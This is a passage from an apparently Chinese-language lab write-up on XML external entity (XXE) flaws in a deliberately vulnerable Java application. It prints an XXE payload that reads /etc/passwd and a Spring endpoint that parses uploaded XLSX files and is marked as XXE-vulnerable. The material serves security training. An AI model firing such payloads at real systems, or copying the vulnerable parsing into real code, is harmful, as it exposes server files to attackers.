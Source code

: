 该代码需要使用固定的标签可以实现回显，我们可以构造payload：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "file:///etc/passwd">  
]>
<userPayload>
    <userName>&xxe;</userName>
</userPayload>

```

![image-20250728144316073](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202507281443153.png)

#### 11/ooxml/readxlsx

```
 @PostMapping("/readxlsx")
    @ResponseBody
    public String ooxml_xxe(MultipartFile file) throws IOException {
        XSSFWorkbook wb = new XSSFWorkbook(file.getInputStream()); // xxe vuln

        XSSFSheet sheet = wb.getSheetAt(0);
        XSSFRow row;
        XSSFCell cell;

        Iterator rows = sheet.rowIterator();
        StringBuilder sbResult = new StringBuilder();

        while (rows.hasNext()) {

            row = (XSSFRow) rows.next();
            Iterator cells = row.cellIterator();

            while (cells.hasNext()) {
                cell = (XSSFCell) cells.next();

                if (cell.getCellType() == XSSFCell.CELL_TYPE_STRING) {
                    sbResult.append(cell.getStringCellValue()).append(" ");
                } else if (cell.getCellType() == XSSFCell.CELL_TYPE_NUMERIC) {
                    sbResult.append(cell.getNumericCellValue()).append(" ");
                } else {
                    logger.info("errors");
                }
            }
        }

        return sbResult.toString();
    }

```
